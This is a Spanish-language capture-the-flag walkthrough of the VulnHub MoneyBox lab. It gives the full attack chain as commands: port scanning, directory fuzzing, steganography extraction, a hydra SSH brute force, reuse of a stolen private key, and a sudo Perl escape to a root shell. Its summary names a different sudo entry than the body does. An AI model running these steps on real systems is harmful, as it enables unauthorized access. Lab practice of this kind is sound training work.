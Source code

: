 ```yaml
---
Title: "MoneyBox — Walkthrough"
Author: "Pxlymxrph"
Level: "Easy / eJPT-ish"
Target: "VulnHub - MoneyBox"
url: "https://www.vulnhub.com/entry/moneybox-1,653/"
Date: 2025-09-25
Tags: [ctf, vulnhub, linux, ssh, privesc, steganography, enum]
---
```


# MoneyBox — Walkthrough

**Autor:** Pxlymxrph  
**Origen:** VulnHub — MoneyBox (link arriba)  
**Objetivo:** Encontrar las 3 flags y obtener acceso root.  
**Resumen (TL;DR):**
- Descubrí la IP de la máquina en la LAN.  
- `nmap` mostró FTP (anon), SSH y HTTP.  
- Fuzzing web reveló `/blogs/`. FTP entregó una imagen con steganografía → usuario `renu`.  
- Fuerza bruta controlada con `hydra` sobre SSH → acceso `renu`.  
- Encontré `.ssh/id_rsa` → `lily`. `sudo -l` muestra `/usr/bin/python3 /opt/backup.py` NOPASSWD → uso de GTFObins/Perl para shell root.  
- Flags: user, lily, root.

## 1) Descubrimiento de red
Detecté la máquina objetivo en la red local con:

```bash
arp-scan -I eth0 --localnet --ignoredups
```

IP objetivo: **192.168.1.78**. Verifiqué cabeceras/TTL con `ping -c 1 192.168.1.78` (confirma Linux).

![1.png](Images/1.png)

## 2) Escaneo de puertos y servicios
Escaneo rápido de todos los puertos:

```bash
nmap -p- -sS --min-rate 5000 192.168.1.78 -Pn -n -vvv
```
![1.2.png](Images/1.2.png)

Escaneo con scripts en puertos detectados (21,22,80):

```bash
nmap -sCV -p21,22,80 192.168.1.78
```
![2.png](Images/2.png)

Resultados clave:
- 21/tcp FTP (anonymous)  
- 22/tcp SSH  
- 80/tcp HTTP  

## 3) Enumeración web
Reconocimiento rápido:

```bash
whatweb http://192.168.1.78/
curl "http://192.168.1.78/"
```

![3.png](Images/3.png)

Página estática con mensaje de “hacked”. Primer vistazo sin info útil.

![4.png](Images/4.png)

## 4) Fuzzing de directorios
Fuzzing con `gobuster` / `dirsearch`:

```bash
gobuster dir -u http://192.168.1.78/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

Descubro `/blogs/`. En la fuente del blog aparece una nota que sugiere otra ruta.

![5.png](Images/5.png)

## 5) Pista en el HTML
Inspección manual del HTML mostró una contraseña/nota oculta en comentarios — la guardé como pista.

![6.png](Images/6.png)

## 6) FTP — descarga de imagen
Ingreso anónimo a FTP y descargo `trytofind.jpg`:

```bash
ftp 192.168.1.78
# anonymous login
get trytofind.jpg
```

![7.png](Images/7.png)

## 7) Steganografía en la imagen
Pruebo herramientas habituales:

```bash
exiftool trytofind.jpg
stegseek trytofind.jpg rockyou.txt
steghide extract -sf trytofind.jpg
```

`steghide` devuelve un mensaje y un usuario: **renu**.

![9.1.png](Images/9.1.png)

## 8) Fuerza bruta SSH (laboratorio)
Intento controlar SSH con `hydra` (en laboratorio):

```bash
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.78
```

Obtuve la contraseña válida.

![10.png](Images/10.png)

## 9) Acceso y enumeración local
Ingreso con `renu`:

```bash
ssh renu@192.168.1.78
cat /home/renu/user.txt   # flag user
```

![11.png](Images/11.png)

## 10) Movimiento lateral hacia `lily`
Busco mas usuarios a través del `/etc/passwd` con `cat`. En `/home/renu` hallo `.ssh/id_rsa`. Uso la llave para entrar a `lily`:

```bash
cat /etc/passwd | grep "/bin/bash"
ssh -i /home/renu/.ssh/id_rsa lily@localhost
```

Accedo a `lily` y obtengo la segunda flag.

![12.png](Images/12.png)

![13.png](Images/13.png)

## 11) Escalada a root
Como `lily` ejecuto `sudo -l`:

```bash
sudo -l
# muestra: (ALL) NOPASSWD: /usr/bin/perl
```

Uso un vector conocido (GTFObins / Perl) para obtener shell root:

```bash
sudo perl -e 'exec "/bin/sh";'
```

![16.png](Images/16.png)

![17.png](Images/17.png)

Consigo shell root y la flag final.

![18.png](Images/18.png)

## Resumen de comandos clave
```bash
arp-scan -I eth0 --localnet --ignoredups
nmap -p- -sS --min-rate 5000 192.168.1.78 -Pn -n -vvv
nmap -sCV -p21,22,80 192.168.1.78
whatweb http://192.168.1.78/
gobuster dir -u http://192.168.1.78/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
ftp 192.168.1.78
steghide extract -sf trytofind.jpg
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.78
ssh renu@192.168.1.78
ssh -i /home/renu/.ssh/id_rsa lily@localhost
sudo -l
sudo perl -e 'exec "/bin/sh";'
```

## Conclusión
MoneyBox es un reto clásico: enum → stego → brute → lateral move → sudo privesc. Buen ejercicio para pulir cadena completa de ataque y detección de vectores básicos.
